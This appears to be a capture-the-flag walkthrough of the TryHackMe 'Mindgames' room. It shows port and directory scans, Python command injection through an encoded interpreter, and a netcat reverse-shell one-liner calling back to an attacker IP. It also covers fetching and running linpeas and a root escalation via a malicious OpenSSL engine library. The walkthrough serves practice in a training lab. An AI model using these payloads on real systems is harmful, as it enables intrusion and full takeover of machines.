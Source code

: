 # Mindgames

**Room Link:** [https://tryhackme.com/room/mindgames](https://tryhackme.com/room/mindgames)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

Nothing really found, the pages listed are all broken links

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

[https://www.dcode.fr/brainfuck-language](https://www.dcode.fr/brainfuck-language)

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Encode**

```
__import__("os").system("ls -la")
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**&#x20;

```
nc -lvnp 4242
```

**Encode**

```
__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.231.107 4242 >/tmp/f")
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```





### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```





## Privilege Escalation

**Exploit:** [https://chaudhary1337.github.io/p/how-to-openssl-cap\_setuid-ep-privesc-exploit/](https://chaudhary1337.github.io/p/how-to-openssl-cap\_setuid-ep-privesc-exploit/)



We found openssl has cap\_setuid+ep in Linpeas

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

We can also run the below command to validate

**Victim**

```
getcap -r / 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

**openssl-exploit-engine.c**

```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN() 
```

**Kali**

```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/openssl-exploit-engine.so
openssl req -engine ./openssl-exploit-engine.so
```

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>













